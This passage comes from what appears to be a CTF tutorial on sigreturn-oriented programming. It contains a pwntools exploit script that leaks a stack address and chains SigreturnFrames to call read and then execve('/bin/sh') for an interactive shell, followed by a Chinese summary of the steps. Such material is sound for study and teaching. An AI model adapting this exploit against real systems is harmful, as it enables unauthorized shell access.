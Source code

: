 ```python
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程爲

- 讀取三個程序起始地址
- 程序返回時，利用第一個程序起始地址讀取地址，修改返回地址(即第二個程序起始地址)爲源程序的第二條指令，並且會設置rax=1
- 那麼此時將會執行write(1,$esp,0x400)，泄露棧地址。
- 利用第三個程序起始地址進而讀入payload
- 再次讀取構造sigreturn調用，進而將向棧地址所在位置讀入數據，構造execve('/bin/sh',0,0)
- 再次讀取構造sigreturn調用，從而獲取shell。

## 題目
